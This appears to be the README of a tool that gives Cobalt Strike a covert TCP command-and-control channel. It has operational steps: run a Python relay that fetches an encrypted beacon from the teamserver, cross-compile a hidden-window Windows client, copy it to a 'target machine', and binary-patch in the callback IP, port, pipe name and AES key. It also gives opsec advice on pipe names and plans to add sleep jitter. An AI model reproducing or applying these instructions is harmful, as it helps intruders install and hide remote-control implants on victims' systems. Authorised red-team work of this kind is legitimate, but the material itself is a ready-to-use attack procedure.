 # COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

Requirements: Python3 (developed on 3.9.2) and PyCryptodome

> pip3 install pycryptodome

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename] [Key] [OPTIONAL:-tp TeamserverPort -a Arch -r Restart]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any opsec appropriate pipe name approved for ops.
- [Key] AES key to encrypt the beacon that is initially sent. It must be the same as the client. (128 bit is 16 characters)
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.
- [Arch] is the architecture to request from the teamserver for the beacon. It defaults to x86 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N and is an optional argument.

Install MinGW

>sudo apt install mingw-w64

Once you have the MinGW compiler installed, you may compile the client C code with the following command (may need full paths to .c files):

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c aes.c base64.c -lws2_32 -static -lwsock32 -mwindows

or 64-bit with:

>x86_64-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c aes.c base64.c -lws2_32 -static -lwsock32 -mwindows

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments.

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout] -f [key]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server. It hits this sleep when the beacon indicates it has nothing left to send back to the server and is just checking in.
- [Timeout] is the send/recv socket timeout option (in seconds) set by setsockopt(). May remove in future.
- [key] AES key to encrypt the beacon that is initially sent. It must be the same as the client.

## CONSTRAINTS AND NOTES

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- The client keeps one long TCP/TLS connection open.

## TODOS/IMPROVEMENTS

- Handle multiple clients on one server.
- Add jitter to sleep
- Add retry to TCP

